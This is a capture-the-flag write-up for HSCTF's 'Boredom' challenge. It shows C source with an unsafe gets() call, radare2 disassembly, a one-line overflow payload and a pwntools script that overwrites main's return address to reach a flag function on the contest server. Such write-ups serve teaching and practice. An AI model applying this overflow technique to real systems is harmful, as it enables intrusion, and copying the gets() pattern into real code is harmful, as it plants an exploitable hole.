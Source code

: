 # Boredom

## Description

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

 - check your offset, the offset is slightly different on the remote server

 - the addresses are still the same

## Solution

We're given source code to analyse:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <signal.h>

void setup() {
  puts("I'm currently bored out of my mind. Give me something to do!");
  setvbuf(stdin, NULL, _IONBF, NULL);
  setvbuf(stdout, NULL, _IONBF, NULL);
}

void flag() {
  FILE *f = fopen("flag.txt", "r");
  char buf[50];
  if (f == NULL) {
    puts("You're running this locally or I can't access the flag file for some reason.");
    puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
    exit(1);
  }
  fgets(buf, 50, f);
  printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n",
    buf);
  puts("Now go away.");
  exit(42);
}

int main() {
  char toDo[200];
  setup();

  printf("Give me something to do: ");
  gets(toDo);
  puts("Ehhhhh, maybe later.");
  return 0;
}
```

Here, we can see the program makes a call to ```gets()``` before returning.

We can use this to overwrite the return address and jump to the flag function.

If we disassemble the program and list all functions, we can get the address of the flag function.

```asm
[greenavocado@greenavocado-pc Boredom]$ r2 boredom
 -- aaaa is experimental
[0x004010a0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x004010a0]> afl
0x004010a0    1 46           entry0
0x004010e0    4 33           sym.deregister_tm_clones
0x00401110    4 57   -> 51   sym.register_tm_clones
0x00401150    3 33   -> 32   sym.__do_global_dtors_aux
0x00401180    1 6            entry.init0
0x00401320    1 5            sym.__libc_csu_fini
0x00401328    1 13           sym._fini
0x004012b0    4 101          sym.__libc_csu_init
0x004010d0    1 5            sym._dl_relocate_static_pie
0x00401260    1 77           main
0x00401186    1 79           sym.setup
0x00401030    1 6            sym.imp.puts
0x00401070    1 6            sym.imp.setvbuf
0x00401040    1 6            sym.imp.printf
0x00401060    1 6            sym.imp.gets
0x004011d5    3 139          sym.flag
0x00401080    1 6            sym.imp.fopen
0x00401090    1 6            sym.imp.exit
0x00401050    1 6            sym.imp.fgets
0x00401000    3 27           sym._init
[0x004010a0]>
```

Note the address of the ```sym.flag``` function, 0x004011d5.
We'll need to overwrite the return address of ```main``` with this in order to jump to it.

Next, lets disassemble the ```main``` function to find the offset.

```asm
[0x004010a0]> pdf @ main
            ; DATA XREF from entry0 @ 0x4010c1
┌ 77: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0xd0
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4881ecd00000.  sub rsp, 0xd0
│           0x0040126b      b800000000     mov eax, 0
│           0x00401270      e811ffffff     call sym.setup
│           0x00401275      488d3dae0e00.  lea rdi, str.Give_me_something_to_do: ; 0x40212a ; "Give me something to do: " ; const char *format
│           0x0040127c      b800000000     mov eax, 0
│           0x00401281      e8bafdffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401286      488d8530ffff.  lea rax, [s]
│           0x0040128d      4889c7         mov rdi, rax                ; char *s
│           0x00401290      b800000000     mov eax, 0
│           0x00401295      e8c6fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040129a      488d3da30e00.  lea rdi, str.Ehhhhh__maybe_later. ; 0x402144 ; "Ehhhhh, maybe later." ; const char *s
│           0x004012a1      e88afdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012a6      b800000000     mov eax, 0
│           0x004012ab      c9             leave
└           0x004012ac      c3             ret
```

We can see that ```gets()``` is writing to ```rbp-0xd0```.
Our padding is going to be 0xd0+8 to overwrite ```rbp```.

We can try this by writing 0xd0+8 arbitrary bytes, then the address of the ```flag``` function.

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0xd0+8) + b'\xd5\x11\x40\x00\x00\x00\x00\x00')" | ./boredom
```

Here's the output:

```
[greenavocado@greenavocado-pc Boredom]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0xd0+8) + b'\xd5\x11\x40\x00\x00\x00\x00\x00')" | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
Now go away.
```

This would fail if we were to try this on the shell server due to the different offset mentioned in the description.
To find the offset, it shouldn't be difficult to bruteforce it.

## Exploit Script

I've written a script to start at the minimum offset, 208.
This is because the char array has a size of 200, and 8 bytes must be reserved for ```rbp```.

If the script fails to get a flag, it adds 8 to the padding and tries again.

```py
#!/usr/bin/python2
from pwn import *

paddingsize = 208
win = False

while win == False:
    conn = remote("pwn.hsctf.com", 5002)
    print conn.recvline()
    payload = 'A' * paddingsize + '\xd5\x11\x40\x00\x00\x00\x00\x00'
    conn.send(payload + '\n')
    print paddingsize
    print conn.recvline()
    try:
        flagline = conn.recvline()
        print flagline
        flag = flagline[flagline.index("flag{"):flagline.index("}") + 1]
    except:
        conn.close()
        paddingsize += 8
    else:
        win = True

f = open("flag.txt", "w")
f.write(flag)
f.close()
```

Conveniently, the first attempt succeeds with a padding of 208 bytes.

## Flag

```flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}```

